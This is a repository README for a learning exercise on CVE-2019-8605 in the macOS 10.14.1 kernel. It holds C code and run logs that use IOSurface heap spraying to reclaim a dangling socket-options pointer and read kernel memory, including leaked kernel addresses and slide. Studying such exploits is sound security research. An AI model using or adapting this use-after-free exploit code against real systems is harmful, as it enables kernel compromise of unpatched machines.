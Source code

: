 # **IOSurface_kread_observe (CVE-2019-8605)**

## Environment

macOS 10.14.1 x86_64 ([net.siguza.hsp4.kext](https://github.com/Siguza/hsp4/tree/master) needed)

## Description

This is similar to the previously written [dangling_kptr_reuse](https://github.com/wh1te4ever/xnu_1day_practice/tree/main/CVE-2019-8605/dangling_kptr_reuse) repository, but slightly different.

**This repository performs kernel reads using an IOSurface heap-spraying technique.
Here, we check whether dangling pointers are actually reused, and what data ends up stored in the dangling pointers.**

Previously, when we read the README in the parent folder of the repository, we examined how data for spraying IOSurface is created under the title [“2. Using OSUnserializeBinary Format for IOSurface Heap Spraying”](https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2019-8605/README.md#2-using-osunserializebinary-format-for-iosurface-heap-spraying)

The data to be sprayed is loaded into the kernel by the `IOSurface_set_value` function.

To inspect the data loaded into the kernel, we initialize the IOSurface from user space and use the obtained mach_port to access the kernel kobject; from there we sequentially walk structure fields to reach the sprayed dictionary and then the OSArray.

If a dangling kernel pointer obtained from the socket_fd matches the address of an element in the sprayed OSArray, it means the dangling pointer was reused.

I wrote this to verify whether a pointer that I arbitrarily wrote the 8-byte kernel value `0xc0debabe13371338` to (via kwrite64) is read back by the `rk64_via_uaf` function that leverages the vulnerability, and to check whether the dangling pointer is actually reused among the sprayed kernel data.

```c
// obtain userdict from IOSurface
//Thanks @jmpews, https://gist.github.com/jmpews/01b520993a742f72714cd06e40793eed
uint64_t userdict_from_IOSurface(void) {
	uint64_t surfRoot = port_to_kobject(IOSurfaceRootUserClient);
	// INFO("surfRoot: 0x%llx\n", surfRoot);

	// p/x offsetof(IOSurfaceRootUserClient, IOSurfaceClientArray) = 0x118;
	uint64_t surfClients = kread64(surfRoot + 0x118);
	// INFO("surfClients: 0x%llx\n", surfClients);

	uint64_t surfClient = kread64(surfClients + sizeof(uint64_t) * IOSurface_id);
	// INFO("surfClient: 0x%llx\n", surfClient);

	// p/x offsetof(IOSurfaceClient, IOSurface) = 0x40;
	uint64_t surface = kread64(surfClient + 0x40);
	// INFO("surface: 0x%llx\n", surface);

	// p/x offsetof(IOSurface, UserspaceValueDictionary) = 0xd0
	uint64_t userspaceValueDicts = kread64(surface + 0xd0);

	if(userspaceValueDicts != 0) return userspaceValueDicts;

	return 0;
}

bool is_our_sprayed_OSArray(uint64_t osarray) {
	uint32_t osarray_count = kread32(osarray + 0x20);	// 0x20 = p/x offsetof(OSArray, count)
	uint32_t osarray_capacity = kread32(osarray + 0x24);	// 0x24 = p/x offsetof(OSArray, capacity)
	
	if(osarray_count != 256)	return false;

	for(int i = 0; i < 256; i++) {
		uint64_t osdata_in_osarray = OSArray_objectAtIndex(osarray, i);
		uint64_t kbuffer = OSData_buffer(osdata_in_osarray);
		if(kread64(kbuffer + offsetof(struct ip6_pktopts, ip6po_minmtu)) != 0x41424344) return false;

		//yes, it's our sprayed osarray!
		printf("our sprayed 192bytes OSArray[%d] = 0x%llx\n", i, kbuffer);

		for(int j = 0; j < sizeof(dangling_kptrs) / sizeof(uint64_t); j++) {
			if(kbuffer == dangling_kptrs[j]) {
				INFO("DANGLING KPTR REUSE DETECTED!!! OSArray[%d](0x%llx) == dangling_kptrs[%d](0x%llx)\n", i, kbuffer, j, dangling_kptrs[j]);
				khexdump(dangling_kptrs[j], 0xc0);
				break;
			}
		}
	}

	return true;
}

// second primitive: read 20 bytes from addr
void* read_20_via_uaf(uint64_t addr) {
    // create a bunch of sockets
    int sockets[128];
    for (int i = 0; i < 128; i++) {
        sockets[i] = get_socket_with_dangling_options();
		dangling_kptrs[i] = get_dangling_ip6_pktopts_kaddr(sockets[i]);
    }
 
	for (int i = 0; i < 128; i++) {
        INFO("dangling_kptr = 0x%llx; obtained from socket_fd=%d\n", dangling_kptrs[i], sockets[i]);
    }
...
	uint64_t userspaceValueDicts = userdict_from_IOSurface();
	INFO("userspaceValueDicts: 0x%llx\n", userspaceValueDicts);

	struct kOSDict *dict = kernel_fetch_dict(userspaceValueDicts);

	int sprayed_osarray_found_count = 0;
    for (int i = 0; i < dict->count; i++) {
		if(is_our_sprayed_OSArray(dict->items[i].value)) {
			INFO("sprayed OSArray from dict[%u]: 0x%llx\n\n", i, dict->items[i].value);
			sprayed_osarray_found_count++;
		}
  }
	INFO("sprayed_osarray_found_count = %d\n", sprayed_osarray_found_count);
... 
    return buf;
}
```

If you run the actual code in the repository, among the sprayed dictionaries the second one had OSArray[47] pointing to the dangling `inp->in6p_outputopts` address.

The dangling address is **0xffffff802c0d7280**.

At [**0xffffff802c0d7280 + 0x010**] there is an 8-byte kernel address that we wrote intentionally.

Because the 0x10 offset field belongs to the ip6po_pktinfo field of `struct ip6_pktopts`, we can read 20 bytes from that address using the `get_pktinfo` function.

```
ret: 0x0, hsp4: 0xb03
kext_name: com.apple.kec.corecrypto
kext_addr_slid: 0xffffff7f9dcc7000
get_kbase ret: 0, kbase: 0xffffff801ce00000, kslide: 0x1cc00000
[*] IOSurface_init success, IOSurface_id=0x3
[*] surfRoot: 0xffffff802c4280e0
[*] surfClients: 0xffffff802deb0000
[*] surfClient: 0xffffff802c092e60
[*] surface: 0xffffff802b4fbc00
[*] kptr = 0xffffff80b0dbb000 -> kread64: 0xc0debabe13371338
[*] dangling_kptr = 0xffffff802c0d7280; obtained from socket_fd=3
[*] dangling_kptr = 0xffffff802c0d7280; obtained from socket_fd=4
...
[*] spray_IOSurface_call_count: 1
[*] userspaceValueDicts: 0xffffff8029396680
[*] dict 0xffffff8029396680, items 0xffffff80290ca240, count 33, capacity 36
our sprayed 192bytes OSArray[0] = 0xffffff802c0d5b40
our sprayed 192bytes OSArray[1] = 0xffffff802c0d5180
...
[*] sprayed OSArray from dict[1]: 0xffffff80293966c0

our sprayed 192bytes OSArray[0] = 0xffffff802932c480
our sprayed 192bytes OSArray[1] = 0xffffff802bbe7640
our sprayed 192bytes OSArray[2] = 0xffffff802bbe7100
...
our sprayed 192bytes OSArray[47] = 0xffffff802c0d7280
[*] DANGLING KPTR REUSE DETECTED!!! OSArray[47](0xffffff802c0d7280) == dangling_kptrs[0](0xffffff802c0d7280)
=============================
[0xffffff802c0d7280+0x000] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
**[0xffffff802c0d7280+0x010] 00 B0 DB B0 80 FF FF FF**  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x020] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x030] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x050] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x060] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x070] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x080] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x090] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x0a0] 00 00 00 00 44 43 42 41  00 00 00 00 00 00 00 00  |  ....DCBA........ 
[0xffffff802c0d7280+0x0b0] 00 00 00 00 44 43 42 41  00 00 00 00 00 00 00 DE  |  ....DCBA........ 
=============================
our sprayed 192bytes OSArray[48] = 0xffffff802dc05600
...
our sprayed 192bytes OSArray[255] = 0xffffff802dc0c3c0
[*] sprayed OSArray from dict[2]: 0xffffff8029396a00

...
[*] sprayed OSArray from dict[32]: 0xffffff8029346f80

[*] sprayed_osarray_found_count = 32
[*] rk64_via_uaf(kptr) = 0xc0debabe13371338
```